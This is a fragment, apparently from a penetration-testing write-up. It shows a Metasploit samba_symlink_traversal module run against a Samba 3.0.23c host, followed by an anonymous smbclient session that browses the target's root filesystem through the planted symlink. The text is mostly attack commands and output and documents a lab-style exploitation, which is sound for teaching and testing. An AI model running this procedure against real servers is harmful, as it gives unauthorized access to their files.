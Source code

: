    Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOST      10.8.7.2         yes       The target address
   RPORT      445              yes       Set the SMB service port
   SMBSHARE   tmp              yes       The name of a writeable share on the server
   SMBTARGET  rootfs           yes       The name of the directory that should point to the root filesystem

msf auxiliary(samba_symlink_traversal) > exploit 

[*] Connecting to the server...
[*] Trying to mount writeable share 'tmp'...
[*] Trying to link 'rootfs' to the root filesystem...
[*] Now access the following share to browse the root filesystem:
[*]     \\10.8.7.2\tmp\rootfs\

[*] Auxiliary module execution completed
{% endcodeblock %}

{% codeblock %}
root@kali32:~# smbclient //10.8.7.2/tmp
Enter root's password: 
Anonymous login successful
Domain=[WORKGROUP] OS=[Unix] Server=[Samba 3.0.23c]
smb: \> dir
  .                                   D        0  Fri May 15 12:23:06 2015
  ..                                  D        0  Fri May 15 14:06:14 2015
  rootfs                              D        0  Fri May 15 14:06:14 2015
  session_mm_apache0.sem              N        0  Fri May 15 12:06:32 2015
  .X11-unix                          DH        0  Fri May 15 12:06:20 2015
  .ICE-unix                          DH        0  Fri May 15 12:06:20 2015

                37571 blocks of size 4096. 36565 blocks available
smb: \> cd rootfs
smb: \rootfs\> dir
  .                                   D        0  Fri May 15 14:06:14 2015
  ..                                  D        0  Fri May 15 14:06:14 2015
  root                                D        0  Fri May 15 12:06:42 2015
  var                                 D        0  Thu Sep 28 23:17:18 2006
  tmp                                 D        0  Fri May 15 12:23:06 2015
  dev                                 D        0  Fri May 15 12:06:32 2015
  sys                                 D        0  Fri May 15 14:06:07 2015
  proc                               DR        0  Fri May 15 14:06:07 2015
  boot                                D        0  Mon Feb 21 12:29:26 2011
  mnt                                 D        0  Fri May 15 14:06:14 2015
  etc                                 D        0  Fri May 15 12:06:24 2015
  usr                                 D        0  Fri Feb 18 09:10:16 2011
  srv                                 D        0  Sun Apr  8 01:30:06 2007
  sbin                                D        0  Mon Feb 14 11:35:48 2011
  opt                                 D        0  Sun Jun 10 08:23:35 2007
  lib                                 D        0  Fri Feb 18 08:39:02 2011
  home                                D        0  Mon Feb 14 12:00:31 2011
  bin                                 D        0  Mon Apr 30 06:35:12 2007
